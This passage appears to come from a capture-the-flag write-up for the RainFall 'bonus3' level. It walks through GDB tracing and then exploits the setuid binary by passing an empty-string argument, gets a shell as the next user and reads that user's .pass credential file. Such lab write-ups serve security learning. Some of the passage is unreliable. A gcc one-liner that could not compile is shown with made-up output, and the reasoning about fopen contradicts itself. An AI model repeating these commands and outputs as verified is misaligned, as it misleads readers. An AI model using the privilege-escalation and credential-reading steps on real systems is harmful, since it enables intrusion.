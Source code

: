 ### 11. Testing the Theory with GDB
Since we can't actually read the password file, let's trace through what would happen:

```bash
(gdb) run ""
Starting program: /home/user/bonus3/bonus3 ""

# Program will fail at fopen() since we can't read the file
# But we can understand the logic:

# If file opened successfully:
# 1. Buffer would be filled with password content
# 2. atoi("") would return 0
# 3. buffer[0] = 0 would null-terminate at start
# 4. strcmp(buffer, "") would compare empty strings
# 5. Result: equal → shell execution
```

**Conceptual Verification:**
```bash
# Simulating the key operations:
echo 'printf("atoi result: %d\n", atoi(""));' | gcc -x c - && ./a.out
# Output: atoi result: 0

# This confirms atoi("") returns 0
# So buffer[0] = 0 truncates the buffer to empty string
# strcmp(empty_buffer, "") returns 0 (equal)
```

## The Privilege Escalation Attempt

### 12. Execute the Attack
Based on our analysis, the attack should work with an empty string:

```bash
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
$ exit
```

**Success!** 

**But wait...** how did this work if fopen() was failing? Let's investigate further:

```bash
bonus3@RainFall:~$ ls -la /home/user/end/
total 21
dr-xr-x---+ 1 end end    80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 end  end   220 Apr  3  2012 .bash_logout
-rw-r--r--  1 end  end  3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 end  users  26 Sep 23  2015 end
-rw-r--r--+ 1 end  end    65 Sep 23  2015 .pass
-rw-r--r--  1 end  end   675 Apr  3  2012 .profile

bonus3@RainFall:~$ ls -la /home/user/end/.pass
-rw-r--r--+ 1 end end 65 Sep 23  2015 /home/user/end/.pass

# The file is readable! Our ltrace earlier was misleading - 
# the setuid binary can read it when running as 'end' user
```

